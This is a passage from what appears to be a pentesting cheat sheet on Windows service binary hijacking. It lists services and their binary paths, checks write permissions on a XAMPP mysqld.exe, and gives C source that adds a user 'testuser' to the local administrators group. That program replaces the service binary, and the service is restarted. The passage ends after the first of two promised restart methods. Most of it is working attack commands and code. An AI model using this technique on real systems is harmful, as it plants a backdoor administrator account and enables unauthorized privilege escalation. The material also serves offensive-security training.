 **CMD one-liner**
```dos
for /f "tokens=2 delims=:" %s in ('sc query state^= all ^| findstr /R "^SERVICE_NAME:"') do @echo %s & sc qc %s | find "BINARY_PATH_NAME"
```

**Powershell**
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

{{< hint style=notes >}}
**Note**: When using network logons like WinRM or bind shells, non-admin users get “permission denied” errors with `Get-CimInstance` when querying services. Interactive logons (e.g., RDP) avoid this issue.
{{< /hint >}}

Focus on services installed by users and enumerate the permissions:

```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"

# F   Full access
# M   Modify access
# RX  Read and execute access
# R   Read-only access
# W   Write-only access
```

If we can modify the binary, we can replace it. So, create a binary and compile it:

```C
#include <stdlib.h>
int main ()
  {
    int i;
    i = system ("net user testuser somepassword /add");
    i = system ("net localgroup administrators testuser /add");
  }
```

{{< hint style=notes >}}
**Note**: Create a backup of the original binary service (C:\xampp\mysql\bin\mysqld.exe) before proceeding.
{{< /hint >}}

Now there are two way:

1. Restart the service:
```powershell
# 1. with net
net stop mysql
net start mysql

# 2. Restart-Service
Restart-Service -Name "mysql"
```

